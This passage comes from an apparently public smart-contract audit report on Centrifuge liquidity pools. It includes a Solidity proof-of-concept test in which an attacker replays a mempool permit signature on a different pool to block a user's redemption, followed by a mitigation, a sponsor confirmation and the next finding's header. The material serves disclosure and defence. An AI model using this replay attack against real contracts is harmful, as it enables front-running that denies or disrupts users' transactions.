 ```solidity
    }

    // Let's assume that there is another liquidity pool with the same poolId and trancheId
    // but a different currency
    LiquidityPool newLPool;
    {
        assert(currencyId != 123);
        address newErc20 = address(_newErc20("Y's Dollar", "USDY", 6));
        homePools.addCurrency(123, newErc20);
        homePools.allowPoolCurrency(poolId, 123);
        newLPool = LiquidityPool(poolManager.deployLiquidityPool(poolId, trancheId, newErc20));
    }
    assert(address(lPool) != address(newLPool));
    
    // Malicious actor can use the signature extracted from the mempool to 
    // request redemption from the different liquidity pool
    vm.prank(makeAddr("malicious"));
    newLPool.requestRedeemWithPermit(maxMint, investor, block.timestamp, v, r, s);

    // User's transaction will fail since the signature has already been used
    vm.expectRevert();
    lPool.requestRedeemWithPermit(maxMint, investor, block.timestamp, v, r, s);
}
```

### Recommended Mitigation Steps

One of the ways to mitigate this issue is to add some identifier of the liquidity pool to the permit message. This way permit will be linked to a specific liquidity pool.

**[hieronx (Centrifuge) confirmed and commented](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/227#issuecomment-1745023712):**
 > Mitigated in https://github.com/centrifuge/liquidity-pools/pull/159



***

## [[M-03] Cached `DOMAIN_SEPARATOR` is incorrect for tranche tokens potentially breaking permit integrations](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/146)
*Submitted by [Kow](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/146), also found by [0xRobsol](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/746), [codegpt](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/730), [0xkazim](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/710), [josephdara](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/697), [Aymen0909](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/586), 0xpiken ([1](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/539), [2](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/345)), [bin2chen](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/536), [nmirchev8](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/426), rvierdiiev ([1](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/404), [2](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/402)), lsaudit ([1](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/313), [2](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/306)), [0xfuje](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/247), [gumgumzum](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/214), [T1MOH](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/102), and ravikiranweb3 ([1](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/65), [2](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/52), [3](https://github.com/code-423n4/2023-09-centrifuge-findings/issues/51))*
